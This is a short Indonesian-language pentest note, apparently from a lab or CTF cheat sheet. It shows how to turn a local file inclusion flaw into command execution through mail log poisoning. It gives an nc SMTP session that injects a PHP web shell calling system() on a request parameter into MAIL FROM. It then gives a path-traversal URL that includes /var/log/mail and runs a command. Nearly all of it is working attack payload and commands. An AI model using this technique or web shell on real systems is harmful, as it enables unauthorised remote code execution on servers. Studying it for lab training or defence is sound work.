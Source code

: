 # Send Test mail
Pada sebuah kasus dimana terdapat celah LFI dan kita bisa melihat email pada direktori `http://192.168.56.102/turing-bolo/bolo.php?bolo=../../../../var/log/mail`

Disini kita bisa coba upload shell dengan cara menginputkan kode shell pada **MAIL FROM** atau **DATA**
```
nc target 25
HELO hacker

MAIL FROM: "<?php if(isset($_REQUEST['cmd'])){ echo '<pre>'; $cmd = ($_REQUEST['cmd']); system($cmd); echo '</pre>'; die; }?>"

RCPT TO: admin

DATA
.


```
Terus buka URL dengan cara
```
http://192.168.56.102/turing-bolo/bolo.php?bolo=../../../../var/log/mail&cmd=id
```